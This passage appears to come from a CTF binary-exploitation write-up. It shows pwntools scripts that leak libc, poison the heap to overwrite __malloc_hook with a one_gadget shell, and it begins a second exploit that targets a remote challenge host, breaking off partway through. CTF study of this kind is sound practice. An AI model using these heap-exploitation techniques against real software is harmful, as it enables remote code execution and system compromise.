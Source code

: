 ```python
__malloc_hook = u64(p.recv(6) + b'\x00' * 2) - 0x70
libc.address = __malloc_hook - libc.symbols['__malloc_hook']
realloc = libc.symbols['realloc']
log.info('__malloc_hook: ' + hex(__malloc_hook))
log.info('libc.address: ' + hex(libc.address))
ogg = [0xe3afe, 0xe3b01, 0xe3b04]
'''
0xe3afe execve("/bin/sh", r15, r12)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp

0xe3b01 execve("/bin/sh", r15, rdx)
constraints:
  [r15] == NULL || r15 == NULL || r15 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xe3b04 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp
'''
add(1, 0x600)
delete(0)
delete(2)
edit(2, 0x20, p64(0x404000))
add(3, 0x20)
add(4, 0x20)
edit(4, 0x20, p64(0)*3 + p64(libc.address + ogg[1]))
debug()
delete(0)


p.interactive()
```
## Fufu-区域
有一个整数溢出漏洞，read大值后可以泄漏libc基址，之后正常构造ROP链
```python
from pwn import *
from wstube import websocket
import sys

context(arch='amd64', os='linux', log_level='debug')
local = True if len(sys.argv) == 1 else False
elf_path = './' + sys.argv[0][:-3]
libc_path = './'
if local:
    p = process(elf_path)
else:
    ip, port = '101.200.155.151:12600'.split(':')
    p = remote(ip, port)
    # p = websocket("")

def debug():
    if local:
        gdb.attach(p, '''
            b *$rebase(0x1199)
            b *$rebase(0x127c)
            b main
        ''')

def choose(index):
```